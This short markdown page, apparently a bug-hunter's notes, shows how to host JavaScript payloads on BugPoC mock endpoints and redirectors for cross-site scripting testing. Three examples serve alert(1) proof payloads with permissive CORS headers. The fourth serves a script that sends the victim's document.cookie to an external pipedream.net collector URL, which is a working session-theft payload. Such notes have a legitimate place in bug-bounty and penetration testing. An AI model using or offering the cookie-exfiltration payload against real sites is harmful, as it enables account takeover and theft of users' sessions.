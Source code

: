 ## Create an endpoint or Connection redirector

[Link (Create an endpoint)](https://bugpoc.com/testers/other/mock)

[Link (Connection redirector)](https://bugpoc.com/testers/other/redir)

> Example

```
Response Headers >
{
  "Access-Control-Allow-Origin":"*",
  "Content-Type":"application/javascript"
}

Response Body >
window.parent.alert(1)

url : https://wv34ypjnazur.redir.bugpoc.ninja
```
```
Response Headers >
{
  "Access-Control-Allow-Origin":"*",
  "Content-Type":"application/javascript"
}

Response Body>
window.top.alert(1)

url : https://p93yp8ell2os.redir.bugpoc.ninja
```
```
Response Headers >
{
  "Access-Control-Allow-Origin":"*",
  "Content-Type":"application/javascript"
}

Response Body >
alert(1)

url : https://nq5h16dpmbg2.redir.bugpoc.ninja
```
```
Response Headers >
{
  "Content-Type":"application/javascript"
}

Response Body >
location.href = "https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f"+document.cookie

url : https://x6nbuhdfsr89.redir.bugpoc.ninja 
```

---